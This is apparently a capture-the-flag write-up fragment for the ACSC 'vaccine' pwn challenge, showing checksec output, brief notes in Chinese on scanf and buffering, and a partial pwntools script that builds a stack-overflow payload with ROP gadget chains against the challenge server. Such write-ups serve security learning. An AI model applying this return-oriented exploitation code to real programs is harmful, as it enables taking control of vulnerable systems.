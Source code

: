 ## Vaccine

```
#  checksec ./vaccine
[*] '/docker_vol/acsc/vaccine/bin/vaccine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- `scanf()` 可以讀 `'\x00'`
- default 為 full buf / line buf，需要 `fflush()`



```python
#!/usr/bin/python3

from pwn import *
from sys import argv
import time

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

if len(argv) > 1:
    r = remote('vaccine.chal.ctf.acsc.asia', 1337)
else:
    r = process('./vaccine')

rop_pop_rdi_ret = 0x401443
rop_pop_rsi_r15_ret = 0x401441
rop_ret = 0x40101a

plt_scanf = 0x4010a0

addr_R = 0x403008
addr_flag_str = 0x404200
addr_stack = 0x404f00
addr_main = 0x401236
addr_main_scanf = 0x4012AC
addr_main_fget_gadget = 0x401375
addr_main_fflush = 0x401293

payload =  b'\x00' * (112 + 104 + 8 + 8)
payload += b'\x00' * 0x18 # padding ?
payload += p64(addr_stack) # old rsp

rop = flat(
    rop_pop_rsi_r15_ret, addr_flag_str, 0,
    rop_ret,
    addr_main_scanf,
)

padding = b'A' * 0x180 + p64(addr_stack)
rop2 = flat(
    rop_pop_rdi_ret, addr_flag_str,
    rop_pop_rsi_r15_ret, addr_R, 0,
    addr_main_fget_gadget,
    addr_main_fflush,
)

padding2 = b'A' * 0x180 + p64(addr_main_fflush)
```